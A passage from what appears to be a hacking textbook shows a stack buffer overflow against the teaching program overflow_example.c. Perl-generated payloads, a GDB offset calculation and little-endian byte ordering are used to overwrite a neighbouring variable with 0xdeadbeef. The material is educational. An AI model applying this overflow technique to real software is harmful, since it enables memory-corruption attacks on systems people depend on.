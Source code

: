 Command substitution and Perl can be used in combination to quickly generate overflow buffers on the fly. You can use this technique to easily test the _overflow_example.c_ program with buffers of precise lengths.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./overflow_example $(perl -e 'print "A"x30')
[BEFORE] buffer_two is at 0xbffff7e0 and contains 'two'
[BEFORE] buffer_one is at 0xbffff7e8 and contains 'one'
[BEFORE] value is at 0xbffff7f4 and is 5 (0x00000005)

[STRCPY] copying 30 bytes into buffer_two

[AFTER] buffer_two is at 0xbffff7e0 and contains 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[AFTER] buffer_one is at 0xbffff7e8 and contains 'AAAAAAAAAAAAAAAAAAAAAA'
[AFTER] value is at 0xbffff7f4 and is 1094795585 (0x41414141)
Segmentation fault (core dumped)
reader@hacking:~/booksrc $ gdb -q
(gdb) print 0xbffff7f4 - 0xbffff7e0
$1 = 20
(gdb) quit
reader@hacking:~/booksrc $ ./overflow_example $(perl -e 'print "A"x20 . "ABCD"')
[BEFORE] buffer_two is at 0xbffff7e0 and contains 'two'
[BEFORE] buffer_one is at 0xbffff7e8 and contains 'one'
[BEFORE] value is at 0xbffff7f4 and is 5 (0x00000005)

[STRCPY] copying 24 bytes into buffer_two

[AFTER] buffer_two is at 0xbffff7e0 and contains 'AAAAAAAAAAAAAAAAAAAAABCD'
[AFTER] buffer_one is at 0xbffff7e8 and contains 'AAAAAAAAAAAAABCD'
[AFTER] value is at 0xbffff7f4 and is 1145258561 (0x44434241)
reader@hacking:~/booksrc $
</pre>

In the output above, _GDB_ is used as a hexadecimal calculator to figure
out the distance between __buffer_two__ (_0xbfffff7e0_) and the __value__ variable
(_0xbffff7f4_), which turns out to be _20_ bytes. Using this distance, the __value__
variable is overwritten with the exact value _0x44434241_, since the characters __A__,
__B__, __C__, and __D__ have the hex values of _0x41_, _0x42_, _0x43_, and _0x44_, respectively. The first character is the least significant byte, due to the little-endian architecture. This means if you wanted to control the value variable with something exact, like _0xdeadbeef_, you must write those bytes into memory in reverse order.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./overflow_example $(perl -e 'print "A"x20 . "\xef\xbe\xad\xde"')
[BEFORE] buffer_two is at 0xbffff7e0 and contains 'two'
[BEFORE] buffer_one is at 0xbffff7e8 and contains 'one'
[BEFORE] value is at 0xbffff7f4 and is 5 (0x00000005)

[STRCPY] copying 24 bytes into buffer_two

[AFTER] buffer_two is at 0xbffff7e0 and contains 'AAAAAAAAAAAAAAAAAAAA??'
[AFTER] buffer_one is at 0xbffff7e8 and contains 'AAAAAAAAAAAA??'
[AFTER] value is at 0xbffff7f4 and is -559038737 (0xdeadbeef)
reader@hacking:~/booksrc $
</pre>
